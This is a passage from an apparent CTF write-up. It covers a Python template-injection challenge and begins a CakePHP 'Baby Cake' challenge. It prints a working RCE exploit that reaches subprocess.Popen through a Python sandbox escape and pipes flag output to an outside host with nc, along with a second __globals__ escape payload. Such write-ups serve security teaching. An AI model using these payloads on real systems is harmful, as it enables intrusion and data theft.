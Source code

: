 Take a closer look. There is `<class 'subprocess.Popen'>` class, so it's trivial to RCE now!

My payload:

```python
#!/usr/bin/env python3
import requests
from Crypto.Cipher import DES 

def encrypt(s):
    raw = s.encode()
    pad = 8 - len(raw) % 8 
    raw += bytes([pad] * pad)
    print(raw)
    return DES.new('megnnaro').encrypt(raw).hex()

def decrypt(s):
    raw = DES.new('megnnaro').decrypt(bytes.fromhex(s))
    return raw[:-raw[-1]].decode()
# <class 'subprocess.Popen'>
h = encrypt("m=p&l=${[].__class__.__base__.__subclasses__()[-68]('/read_flag | nc 240.240.240.240 5678',shell=1)}")
print(requests.get('http://13.115.255.46/?s=' + h).text)

```

It's worth to mention @qazwsxedcrfvtg14 's more creative payload. I can't believe that an unbounded method can access `__globals__` in Python 2.7 !


```python
([t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__).__globals__['__builtins__']['__import__']('os').system('sleep 10')

```

The flag is `hitcon{Fr0m_SQL_Injecti0n_t0_Shell_1s_C00L!!!}`.

### Baby Cake 

The server side is running CakePHP 3.5, which is an outdated version of CakePHP. The hint and challenge description imply that we should get the shell, and it's not related to SSRF.

Here is the code of the main controller. It simply proxies user's request. A cache is also implemented using md5(URL) as key. You can find the complete version of server source code in [author's website](https://github.com/orangetw/My-CTF-Web-Challenges#baby-cake).


```php
<?php

namespace App\Controller;
use Cake\Core\Configure;
use Cake\Http\Client;
use Cake\Http\Exception\ForbiddenException;
use Cake\Http\Exception\NotFoundException;
use Cake\View\Exception\MissingTemplateException;

class DymmyResponse {
    function __construct($headers, $body) {
        $this->headers = $headers;
        $this->body = $body;
    }
}

class PagesController extends AppController {

    private function httpclient($method, $url, $headers, $data) {
        //['get', 'post', 'put', 'delete', 'patch']
```